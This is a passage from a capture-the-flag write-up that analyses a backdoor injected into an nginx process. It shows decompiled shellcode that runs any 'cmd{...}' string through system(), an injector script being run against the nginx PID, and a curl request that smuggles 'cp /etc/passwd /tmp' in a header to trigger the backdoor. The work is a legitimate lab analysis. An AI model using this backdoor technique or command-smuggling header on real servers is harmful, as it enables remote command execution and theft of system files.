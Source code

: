 ```c linenums="1"
    uVar3 = uVar3 - 1;
  } while( true );
}
```

The important line is:

```c linenums="21"
if ((((*pcVar4 == 'c') && (pcVar4[1] == 'm')) && (pcVar4[2] == 'd')) && (pcVar4[3] == '{')) {
```

The shellcode is looking for the string `cmd{` in a block of memory passed to `malloc()`. If it
sees that string in the memory block, it saves the next characters until `}` is found. It then
calls `system()` to execute the string. This is the backdoor `rudi` planted in the system.

Now that we've identified how the backdoor works, we need to determine how `rudi`
(and us) can take advantage of it remotely. Using the `run.sh` script, we can launch the
snapshot image of the server, which drops us into a `root` shell in the snapshot:

```shell-session
[root@fedora injector]# ./run.sh
Restoring snapshot compromised (art_ctf_injector_local.qcow2)
Press Return...

root@injector-local:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Running `ss -ltpn` will show us what ports open and which processes have them open:

```shell-session
root@injector-local:~# ss -ltpn
State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process
LISTEN    0         4096         127.0.0.53%lo:53               0.0.0.0:*        users:(("systemd-resolve",pid=363,fd=13))
LISTEN    0         128                0.0.0.0:3322             0.0.0.0:*        users:(("sshd",pid=377,fd=3))
LISTEN    0         511                0.0.0.0:4321             0.0.0.0:*        users:(("nginx",pid=380,fd=6),("nginx",pid=379,fd=6))
LISTEN    0         128                   [::]:3322                [::]:*        users:(("sshd",pid=377,fd=4))
```

`sshd` is listening on `3322`, and `nginx` on `4321`. The exploit code is still sitting in
`/tmp/.hax/injector.sh`, so we can run it with the `PID` of `nginx (380)`:

```shell-session
root@injector-local:~# /tmp/.hax/injector.sh 380
root@injector-local:~#
```

Sending a `curl` command to the web server with a header containing the exploit command
should cause the exploit to run:

```shell-session hl_lines="1 29"
root@injector-local:~# curl -H 'X-Header: cmd{cp /etc/passwd /tmp}' http://localhost:4321
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
```